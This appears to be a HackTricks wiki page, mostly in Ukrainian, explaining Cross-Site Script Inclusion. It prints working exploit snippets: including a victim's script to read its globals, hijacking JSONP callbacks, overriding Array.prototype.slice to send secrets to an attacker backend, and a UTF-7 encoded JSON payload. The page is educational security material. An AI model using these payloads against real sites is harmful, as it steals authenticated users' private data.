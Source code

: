 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** — це вразливість, яка виникає через природу тегу `script` в HTML. На відміну від більшості ресурсів, які підлягають **Політиці одного походження (SOP)**, скрипти можуть бути включені з різних доменів. Ця поведінка призначена для полегшення використання бібліотек та інших ресурсів, розміщених на різних серверах, але також вводить потенційний ризик безпеки.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Скрипти звільнені від **Політики одного походження**, що дозволяє їх включення між доменами.
- **Data Exposure**: Зловмисник може використати цю поведінку для читання даних, завантажених через тег `script`.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** особливо актуально для динамічного JavaScript або **JSON з доповненням (JSONP)**. Ці технології часто використовують інформацію "ambient-authority" (таку як куки) для аутентифікації. Коли запит скрипта надсилається на інший хост, ці облікові дані (наприклад, куки) автоматично включаються в запит.
- **Authentication Token Leakage**: Якщо зловмисник може обманути браузер користувача, щоб той надіслав запит на скрипт з сервера, який він контролює, він може отримати доступ до чутливої інформації, що міститься в цих запитах.

### Types

1. **Static JavaScript** - Це представляє собою звичайну форму XSSI.
2. **Static JavaScript with Authentication** - Цей тип відрізняється тим, що вимагає аутентифікації для доступу.
3. **Dynamic JavaScript** - Включає JavaScript, який динамічно генерує контент.
4. **Non-JavaScript** - Відноситься до вразливостей, які не пов'язані безпосередньо з JavaScript.

**Наступна інформація є резюме [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Перевірте її для отримання додаткових деталей.


### Regular XSSI
У цьому підході приватна інформація вбудована в глобально доступний JavaScript файл. Зловмисники можуть виявити ці файли, використовуючи методи, такі як читання файлів, пошук за ключовими словами або регулярні вирази. Після знаходження скрипт, що містить приватну інформацію, може бути включений у шкідливий контент, що дозволяє несанкціонований доступ до чутливих даних. Приклад техніки експлуатації наведено нижче:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI та Authenticated-JavaScript-XSSI
Ці типи атак XSSI передбачають динамічне додавання конфіденційної інформації до скрипту у відповідь на запит користувача. Виявлення може бути виконано шляхом надсилання запитів з і без куків та порівняння відповідей. Якщо інформація відрізняється, це може вказувати на наявність конфіденційної інформації. Цей процес можна автоматизувати за допомогою інструментів, таких як [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) розширення Burp.

Якщо конфіденційні дані зберігаються в глобальній змінній, їх можна експлуатувати, використовуючи подібні методи до тих, що використовуються в Regular XSSI. Однак, якщо конфіденційні дані включені у відповідь JSONP, зловмисники можуть перехопити функцію зворотного виклику, щоб отримати інформацію. Це можна зробити, маніпулюючи глобальними об'єктами або налаштувавши функцію, яка буде виконана відповіддю JSONP, як показано нижче:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Для змінних, які не знаходяться в глобальному просторі імен, *підробка прототипу* іноді може бути використана. Ця техніка використовує дизайн JavaScript, де інтерпретація коду передбачає проходження по ланцюгу прототипів для знаходження викликаної властивості. Перезаписуючи певні функції, такі як `Array`'s `slice`, зловмисники можуть отримати доступ до не-глобальних змінних і витікати їх:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Додаткові деталі про вектори атак можна знайти в роботі дослідника безпеки [Sebastian Lekies](https://twitter.com/slekies), який веде список [векторів](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
Дослідження Такеші Теради вводить ще одну форму XSSI, де файли Non-Script, такі як CSV, витікають між джерелами, будучи включеними як джерела в тег `script`. Історичні випадки XSSI, такі як атака Джеремії Гроссмана 2006 року для читання повного адресного довідника Google та витік даних JSON Джо Уокера 2007 року, підкреслюють серйозність цих загроз. Крім того, Гарет Хейз описує варіант атаки, що включає закодований у UTF-7 JSON для виходу з формату JSON та виконання скриптів, ефективний у певних браузерах:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
